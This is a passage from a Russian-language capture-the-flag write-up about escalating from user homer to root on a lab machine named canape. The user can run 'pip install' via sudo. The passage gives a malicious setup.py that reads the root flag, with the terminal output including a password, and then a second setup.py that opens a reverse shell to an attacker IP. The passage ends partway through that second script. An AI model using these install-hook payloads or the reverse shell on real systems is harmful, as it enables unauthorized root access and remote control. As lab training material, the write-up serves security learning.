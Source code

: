 ```text

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

`sudo` позволяет выполнять `pip install`, а это означает ни что иное, как 乇ﾑらㄚ-рут для нас. Будем собирать фальшивый `setup.py`.

## PrivEsc: homer → root
Это можно сделать просто МНОЖЕСТВОМ способов, все ограничивается лишь твоим воображением!

1\. Можно просто прочитать root-флаг:
```python
# setup.py

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
	def run(self):
		with open('/dev/shm/PWNED', 'w') as fout:
			with open('/root/root.txt', 'r') as fin:
				fout.write(fin.read())

setup(
	cmdclass={
		'install': Exploit
	}
)
```

```text
homer@canape:/dev/shm$ ls
setup.py

homer@canape:/dev/shm$ sudo -H /usr/bin/pip install .
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... done
Successfully installed UNKNOWN
```

### root.txt
```text
homer@canape:/dev/shm$ cat PWNED
928c3df1????????????????????????
```

2\. Можно построить полноценный reverse-shell:
```python
# setup.py

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
	def run(self):
		import socket, os, pty
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.10.14.14', 1337))
		os.dup2(s.fileno(), 0)
		os.dup2(s.fileno(), 1)
		os.dup2(s.fileno(), 2)
		os.putenv('HISTFILE', '/dev/null')
```